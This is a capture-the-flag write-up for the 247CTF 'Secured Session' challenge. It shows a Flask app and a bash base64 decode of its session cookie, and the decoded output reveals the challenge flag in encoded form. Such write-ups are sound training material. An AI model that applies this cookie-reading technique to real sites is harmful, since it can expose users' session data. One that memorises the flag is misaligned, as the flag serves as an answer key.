 ### SECURED SESSION
##### RATED MODERATE
If you can guess our random secret key, we will tell you the flag securely stored in your session.
___
### Solution
When hitting `https://1615f3b2ae1a7743.247ctf.com/` we see some __python flask__ code:
```python
import os
from flask import Flask, request, session
from flag import flag

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)

def secret_key_to_int(s):
    try:
        secret_key = int(s)
    except ValueError:
        secret_key = 0
    return secret_key

@app.route("/flag")
def index():
    secret_key = secret_key_to_int(request.args['secret_key']) if 'secret_key' in request.args else None
    session['flag'] = flag
    if secret_key == app.config['SECRET_KEY']:
      return session['flag']
    else:
      return "Incorrect secret key!"

@app.route('/')
def source():
    return "
%s
" % open(__file__).read()

if __name__ == "__main__":
    app.run()
```
There's a few things happening here, but the most important is:
```python
session['flag'] = flag
```
This means that our flag is stored in our session.
<img src="https://github.com/FredericGariepy/TCM_SEC_Notebook/blob/main/Python%20101/247CTF/images/Screenshot%202024-03-24%20035418.jpg" alt="Finding session flag">

We can now use __bash__ to decode the flag

```bash
echo "eyJmbGFnIjp7IiBiIjoiTWpRM1ExUkdlMlJoT0RBM09UVm1PR0UxWTJGaU1tVXdNemRrTnpNNE5UZ3dOMkk1WVRreGZRPT0ifX0.Zf_XgQ.OHh3vha9LHywudl-xRMC9QlkZC0" | base64 -d
```

> {"flag":{" b":"MjQ3Q1RGe2RhODA3OTVmOGE1Y2FiMmUwMzdkNzM4NTgwN2I5YTkxfQ=="}} 


